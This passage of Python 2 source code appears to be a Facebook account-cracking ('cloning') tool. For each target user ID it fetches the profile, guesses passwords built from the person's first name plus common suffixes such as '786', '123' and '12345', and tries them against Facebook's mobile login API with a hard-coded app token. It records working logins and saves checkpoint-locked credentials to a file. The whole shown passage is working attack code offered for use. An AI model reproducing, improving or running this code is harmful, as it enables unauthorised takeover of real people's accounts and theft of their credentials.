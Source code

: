	jalan('                    \033[1;96mMr SOMI start cloning Wait...')
	print  "  \033[1;36;48m ●💋══════════════════◄►══════════════════💋●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass1 + ' 👽 ' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass1 + ' 👽 ' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass2 + ' 👽 ' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass2 + ' 👽 ' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass3 + ' 👽 ' + b['name']
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass3 + ' 👽 ' + b['name']
									cek = open("out/CP.txt", "a")
									cek.write(user+"|"+pass3+"\n")
